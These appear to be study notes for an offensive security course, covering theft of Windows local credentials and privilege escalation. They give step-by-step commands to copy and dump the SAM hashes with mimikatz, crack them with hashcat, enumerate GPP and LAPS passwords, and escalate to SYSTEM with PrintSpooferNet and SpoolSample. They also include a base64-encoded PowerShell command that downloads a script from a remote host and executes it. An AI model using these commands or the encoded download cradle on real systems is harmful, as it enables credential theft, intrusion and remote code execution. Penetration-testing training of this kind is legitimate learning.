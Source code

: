# PEN-300

#### Local Windows Credentials

## SAM credentials

***theory***: 

Local Windows credentials are stored in the Security Account Manager (SAM) database as password hashes using the NTLM hashing format, which is based on the MD4 algorithm.

We can reuse acquired NTLM hashes to authenticate to a different machine, as long as the hash is tied to a user account and password registered on that machine.

Although it is rare to find matching local credentials between disparate machines, the built-in default-named Administrator account is installed on all Windows-based machines.  


***Attack***:  

To get local client workstation name and administrator RID.  Follow commands below
```plaintext
$env:computername
[wmi] "Win32_userAccount.Domain='client',Name='Administrator'"
```
<br>

<img width="857" height="343" alt="image" src="https://github.com/user-attachments/assets/1f7e1521-032f-4e7a-92f6-0f1827ae132d" />



1) Create shadow copy:          wmic shadowcopy call create Volume='C:\'
2) Locate Shadow copy:          vssadmin list shadows
3) Copy SYSTEM / SAM off of host  
4) mimikatz lsadump::sam /system:systemfile /sam:samfile  
   OR
   creddump7: python pwdump.py ~/data/sam/system ~/data/sam/sam  
   <br>
6) Hashcat the password:  

**Mask attack** ./hashcat64.bin -m 1000 -a 3 -w 3 -O hash.txt -1 ?l?d ?1?1?1?1?1?1?1?1?1 -i --increment-min=5
**Password List** .\hashcat.exe -m 1000 -a 0 -w 3 -O hash.txt password_list.txt
<br>

# Hardening the Local Administrator Account

### CPassword  

**Cpassword in the SYSVOL folder on the DC can be viewed with Get-GPPPassword.ps1**  

[Get-GPPPassword.ps1](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/refs/heads/master/Exfiltration/Get-GPPPassword.ps1)

<br><br>


### LAPS - Local Administrator Password Solution  

***LAPS Toolkit for LAPS enumeration***

[Laps ToolKit download](https://raw.githubusercontent.com/leoloobeek/LAPSToolkit/refs/heads/master/LAPSToolkit.ps1)

**Get-LAPSComputers**:  
Displays all computers with LAPS enabled, password expriation, and password if user has access  

**Find-LAPSDelegatedGroups:**  
Searches through all OUs to see which AD groups can read the ms-Mcs-AdmPwd attribute  

***Could then use PowerView to view members of this group***
ex: Get-NetGroupMember -GroupName "LAPS Password Readers"  

**Find-AdmPwdExtendedRights**  
Parses through ExtendedRights for each AD computer with LAPS enabled and looks for which group has read access and if any user has "All Extended Rights". Sysadmins may not be aware the users with All Extended Rights can view passwords and may be less protected than the users in the delegated groups. An example is the user which adds a computer to the domain automatically receives the "All Extended Rights" permission. Since this function will parse ACLs for each AD computer, this can take very long with a larger domain.  

<br><br>

# Access Tokens  

**the operating system also must keep track of the user's access rights, i.e. authorization. Windows uses access tokens to track these rights**  



### PrintSpooferNet and SpoolSample to go from NT Authority\* to SYSTEM.  Local privilege escalation

On Kali as PrintSpooferNet and SpoolSample under visualStudio folder  

AS 'NT Authority':

1) PrintSpooferNet.exe \\.\pipe\test\pipe\spoolss

ALSO AS 'NT AUTHORITY'

2) SpoolSample.exe appsrv01 appsrv01/pipe/test


<Br>CMD.exe will be spawned (you can make any executable in the last line of the source code for printspoofernet) as SYSTEM.  Enjoy priv esc.  <br>
**"C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe -encodedCommand KABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADQANQAuADEAOAA1AC8AcgB1AG4AbgBlAHIALgBwAHMAMQAnACkAIAB8ACAAaQBlAHgA"**  <br>


>The technique shown in this section is not the only possible way of leveraging impersonation to obtain SYSTEM integrity. A similar technique that also uses pipes has been discovered by Alex Ionescu and Yarden Shafir. It impersonates the RPC system service (RpcSs), which typically contains SYSTEM tokens that can be stolen. Note that this technique only works for Network Service. <br><br>On older versions of Windows 10 and Windows Server 2016, the Juicy Potato tool obtains SYSTEM integrity through a local man-in-the-middle attack through COM. It is blocked on Windows 10 version 1809 and newer along with Windows Server 2019, which inspired the release of the RoguePotato tool, expanding this technique to provide access to the RpcSs service and subsequently SYSTEM integrity access.<br><br>Lastly, the beans technique based on local man-in-the-middle authentication with Windows Remote Management (WinRM) also yields SYSTEM integrity access. The caveat of this technique is that it only works on Windows clients, not servers, by default.  


<br><br>

